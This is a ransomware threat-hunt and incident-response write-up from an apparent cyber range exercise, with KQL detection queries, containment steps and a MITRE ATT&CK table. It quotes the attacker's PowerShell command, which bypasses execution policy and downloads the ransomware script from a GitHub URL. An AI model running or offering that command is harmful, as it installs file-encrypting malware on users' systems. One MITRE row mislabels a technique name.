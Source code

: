 # 🛡️ Threat Hunt & Incident Response: PwnCrypt Ransomware Detection and Containment

---

**Author**: Jason Nguyen  
**Date**: 17 June 2025

**Tools & Technologies Used**:
- Microsoft Azure
- Microsoft Defender for Endpoint (MDE)
- KQL (Kusto Query Language)
- PowerShell
- GitHub (Markdown, Repo Management)

---

## 🗓️ Timeline Summary and Findings

### 🔍 Scenario

A new ransomware strain named **PwnCrypt** has been reported in the wild. It uses a **PowerShell-based payload** to encrypt files on infected systems using **AES-256** encryption. The ransomware targets directories such as `C:\Users\Public\Desktop` and appends a `.pwncrypt` extension to filenames (e.g., `hello.txt` → `hello.pwncrypt.txt`).

Due to the organization's **immature security program**, including lack of user awareness training, the CISO has requested an internal investigation to identify and respond to any potential infections.

---

## 🧾 Detection Process

### 1️⃣ File Discovery Using KQL
Initial hunting focused on file artifacts with the `.pwncrypt` pattern:

```kql
let VMname = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMname
| where FolderPath contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, FolderPath, ActionType, InitiatingProcessCommandLine
````

![DeviceFileEvents](images/DeviceFileEvents.png)

**Findings:**

* Encrypted files with `.pwncrypt` extensions were found.
* Affected directories include **Desktop** and **Temp** folders.
* Strong indication that `windows-target-1` was infected.

---

### 2️⃣ Process Tracing and Payload Delivery

Correlated events around the time of file encryption revealed suspicious use of PowerShell:

```kql
let VMname = "windows-target-1";
let specificTime = datetime(2025-06-10T16:13:46.9449819Z);
DeviceProcessEvents
| where DeviceName == VMname
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where ProcessCommandLine contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine
```

![DeviceProcessEvents](images/DeviceProcessEvents.png)

**Malicious Command Identified:**

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

**Indicators:**

* Use of **`-ExecutionPolicy Bypass`** to disable script restrictions.
* Download of malicious payload from **GitHub**.
* Output written to `C:\programdata\pwncrypt.ps1`.

---

## 🧯 Response Actions

* ✅ **Isolated** the infected device `windows-target-1`.
* 🔁 Created a **detection rule** for `.pwncrypt` activity across all devices.
* ✅ **Isolated additional infected devices** discovered via the new rule.
* 📢 **Reported findings to the CISO** with all collected evidence.
* 🗂️ **Documented all encrypted files** and tracked impacted endpoints.
* ⚠️ Due to limited internal capacity, external assistance was requested for forensic analysis and recovery efforts.

---

## 🔧 Recommendations and Improvements

Given the organization’s current security maturity:

1. 🧑‍🏫 **Launch employee awareness training** to reduce user-driven infection vectors.
2. 🛠️ **Harden systems** and restrict PowerShell execution on standard endpoints.
3. 📈 **Expand detection coverage** using known malware/ransomware signatures.
4. 🔄 Use this incident to **prioritize long-term investment** in endpoint protection, EDR solutions, and IR procedures.

---

## 🎯 MITRE ATT\&CK Mapping

| **Tactic**          | **Technique ID** | **Technique Name**                                       | **Description**                                                             |
| ------------------- | ---------------- | -------------------------------------------------------- | --------------------------------------------------------------------------- |
| Execution           | T1059.001        | Command and Scripting Interpreter: PowerShell            | Uses PowerShell with `-ExecutionPolicy Bypass`.                             |
| Execution           | T1059.003        | Command and Scripting Interpreter: Windows Command Shell | Uses `cmd.exe` to initiate PowerShell payload.                              |
| Defense Evasion     | T1562.001        | Disable or Modify Tools: Security Software Discovery     | Bypasses execution policy, evades traditional security tooling.             |
| Collection          | T1119            | Automated Collection                                     | Automatically encrypts files from known directories.                        |
| Impact              | T1486            | Data Encrypted for Impact                                | Encrypted data using AES-256; filenames changed with `.pwncrypt` extension. |
| Command and Control | T1105            | Ingress Tool Transfer                                    | Payload delivered via `Invoke-WebRequest` from external GitHub URL.         |

---

## 📎 Notes

* This incident has reinforced the importance of proactive threat hunting, user education, and modular detection techniques using tools like KQL and Microsoft Defender for Endpoint.
* Screenshots and KQL outputs have been archived locally.
* This report is part of my cybersecurity learning portfolio from Josh Madakor's Cyber Range.
